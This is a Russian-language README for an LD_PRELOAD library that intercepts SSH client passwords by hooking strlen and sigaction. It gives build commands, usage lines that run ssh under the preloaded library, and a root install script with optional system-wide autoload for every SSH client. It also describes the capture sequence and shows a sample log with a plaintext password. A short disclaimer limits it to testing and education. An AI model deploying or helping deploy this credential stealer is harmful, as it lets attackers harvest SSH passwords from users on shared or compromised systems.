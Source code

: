 # SSH Password Interceptor

Библиотека для перехвата паролей SSH-клиента при помощи LD_PRELOAD.

## Описание

Библиотека перехватывает функции `strlen`, `sigaction` и `exit` для отслеживания процесса ввода пароля SSH-клиентом. 
Используется машина состояний для определения момента, когда пользователь вводит пароль.

## Содержимое проекта

- `state.hpp` - Основная логика перехвата, машина состояний
- `ssh_inject.cpp` - Реализация перехвата системных функций
- `Makefile` - Файл сборки проекта
- `install.sh` - Скрипт установки библиотеки
- `uninstall.sh` - Скрипт удаления библиотеки
- `quick_test.sh` - Скрипт быстрого тестирования
- `README.md` - Документация по проекту

## Требования

- Linux-система с glibc
- Компилятор g++ с поддержкой C++11
- Утилита make
- Права root для установки (опционально)

## Компиляция

```bash
make
```

## Установка

### Вариант 1: Локальное использование

Просто скомпилируйте библиотеку и запускайте программы с LD_PRELOAD:

```bash
# Компилируем
make

# Создаем файл для логов
touch /tmp/ssh_inj.dbg
chmod 666 /tmp/ssh_inj.dbg

# Запускаем ssh с предзагрузкой библиотеки
LD_PRELOAD=./libssh_inject.so ssh user@server
```

### Вариант 2: Системная установка

```bash
# Запуск скрипта установки (требуются права root)
sudo ./install.sh
```

Скрипт установки выполнит следующие действия:
1. Скомпилирует библиотеку
2. Установит её в /usr/lib/
3. Создаст файл логов
4. Опционально настроит автозагрузку для всех SSH-клиентов

## Использование

После установки библиотеки, запуск SSH с перехватом:

```bash
LD_PRELOAD=/usr/lib/libssh_inject.so ssh user@server
```

Захваченные пароли сохраняются в файле `/tmp/ssh_inj.dbg`.

## Тестирование

Для быстрого тестирования библиотеки используйте скрипт:
```bash
./quick_test.sh
```

Скрипт автоматически:
1. Скомпилирует библиотеку
2. Подготовит лог-файл
3. Запустит тестовое подключение к localhost
4. Проверит захват пароля

## Просмотр логов

```bash
cat /tmp/ssh_inj.dbg
```

Пример содержимого лога:
```
AUTH: pid=123456, user=root, cmdline=ssh user@server
[ + ] Injection started
... Password prompt detected
... sigaction(SIGTTOU) detected
... Password captured via strlen: "password123"
[ + ] Captured:
    Date: Sun Dec 31 23:59:59 2023
    User: root
    Cmdline: ssh user@server
    Password: "password123"
    Succeeded: 1
----
```

## Особенности работы

Библиотека использует следующую последовательность для перехвата:
1. Обнаружение промпта "assword:" через `strlen`
2. Обнаружение вызова `sigaction(SIGTTOU)`
3. Захват следующего вызова `strlen` как пароля
4. Определение успешности авторизации

## Удаление

Для удаления библиотеки используйте скрипт:
```bash
sudo ./uninstall.sh
```

## Примечание по безопасности

Данный инструмент предназначен исключительно для тестирования систем безопасности и образовательных целей.
Использование без разрешения владельца системы может нарушать законодательство.

## Очистка

Для удаления скомпилированных файлов:
```bash
make clean
``` 